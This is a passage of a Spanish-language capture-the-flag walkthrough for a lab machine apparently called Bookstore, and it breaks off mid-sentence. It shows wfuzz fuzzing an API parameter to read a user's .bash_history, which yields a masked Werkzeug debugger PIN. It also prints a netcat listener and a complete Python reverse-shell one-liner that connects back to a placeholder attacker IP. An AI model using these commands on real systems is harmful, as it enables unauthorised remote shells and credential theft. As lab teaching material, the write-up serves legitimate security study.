 Intento acotar navegando en las diferentes páginas y escribiendo el comando siguente en la consola del navegador:

```javascript
document.body.innerHTML.indexOf(“pin”)
```

Con esto intento averigüar si el pin está oculto en el código HTML, o cualquier otra pista que me ayude a avanzar. Y parece que encuentro algo:

> Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file

Con esto y la posible vulnerabilidad de la v1 de la API tengo para empezar a buscar con wfuzz. 

## wfuzz<a id="wfuzz"></a>

```
wfuzz -u http://IPDELAMAQUINA:5000/api/v1/resources/books?FUZZ=.bash_history -w /usr/share/wordlists/SecLists/Fuzzing/1-4_all_letters_a-z.txt --hc 404 
```

Podía haber utilizado otro diccionario, pero me la juego a que el parámetro que busco tiene 4 letras o números. Sin embargo, no recomiendo hacer esto, utilizad un diccionario apropiado.

Por fin encuentro el parámetro que andábamos buscando. Navego a http://IPDELAMAQUINA:5000/api/v1/resources/books?****=.bash_history

> cd /home/sid whoami export WERKZEUG_DEBUG_PIN=***-***-*** echo $WERKZEUG_DEBUG_PIN python3 /home/sid/api.py ls exit

# Reverse Shell con Python<a id="reverse-shell"></a>

Una vez tengo acceso a la consola me indica que puedo ejecutar comandos de python. Tan sólo tengo que buscar una manera de hacer un reverse shell y apuntar a un puerto de mi máquina local desde donde estaré escuchando .Para ello elijo el puerto 4242. En una terminal de mi máquina local escribo:
```
nc -lvnp 4242
```

Y gracias al fantástico repositorio de [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python), busco la manera de hacer un reverse shell con python. En concreto:

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IPDEMIMAQUINALOCAL",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])
```

Y ya tengo acceso a la máquina desde mi terminal. Encuentro el fichero `user.txt` y con ello la primera flag. 

Hay otro archivo `try-harder`que tiene toda la pinta de ser la clave para convertirnos en usuario root.

Me bajo try-harder tras haber creado un servidor por el puerto 1234 en la máquina atacada (la de Bookstore) con: 
